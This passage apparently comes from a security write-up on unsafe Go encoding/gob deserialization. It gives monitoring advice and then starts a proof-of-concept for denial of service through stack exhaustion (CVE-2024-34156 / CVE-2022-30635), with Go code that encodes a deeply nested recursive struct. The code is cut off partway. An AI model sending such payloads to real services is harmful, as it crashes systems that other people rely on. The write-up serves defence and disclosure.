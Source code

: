 **3. Runtime Monitoring (Production/Staging):**

- **Logging Deserialization Errors**: Ensure comprehensive logging around `gob.Decode` calls. Log any errors returned by the decoder, as these can sometimes be the first sign of an attempted attack or malformed input.
- **System-Level Monitoring**: Monitor overall system health (CPU, memory, network I/O) of servers handling gob deserialization. Anomalous resource consumption patterns, especially if correlated with incoming requests to gob-processing endpoints, should be investigated.

By combining these methods, developers and security teams can identify both known vulnerabilities in the `encoding/gob` package and unsafe usage patterns within their own applications.

## Proof of Concept (PoC)

This section outlines conceptual Proofs of Concept (PoCs) for exploiting unsafe `encoding/gob` deserialization, focusing on Denial of Service (DoS) through stack exhaustion and memory exhaustion. Actual binary gob streams are complex to represent concisely; thus, the method of creation and expected outcomes are described.

**1. PoC for Stack Exhaustion (CVE-2024-34156 / CVE-2022-30635)**

This PoC demonstrates how deeply nested structures can cause a stack overflow during gob decoding.

- **Objective**: Cause the target Go application to panic and crash due to stack exhaustion.
- **Method**:
    1. **Define a Recursive Structure (Encoder Side)**: Create a Go program that defines a struct capable of nesting, for example:
    
    ```go
    package main
    
    import (
    	"bytes"
    	"encoding/gob"
    	"os"
    )
    
    type RecursiveNode struct {
    	Value int
    	Child *RecursiveNode // Pointer to itself allows nesting
    }
    
    func main() {
    	depth := 100000 // Adjust depth to trigger stack overflow; system-dependent
    	root := &RecursiveNode{Value: 0}
    	current := root
    	for i := 1; i < depth; i++ {
    		current.Child = &RecursiveNode{Value: i}
    		current = current.Child
    	}
    
    	var buffer bytes.Buffer
    	encoder := gob.NewEncoder(&buffer)
    	if err := encoder.Encode(root); err!= nil {
    		panic(err)
    	}
    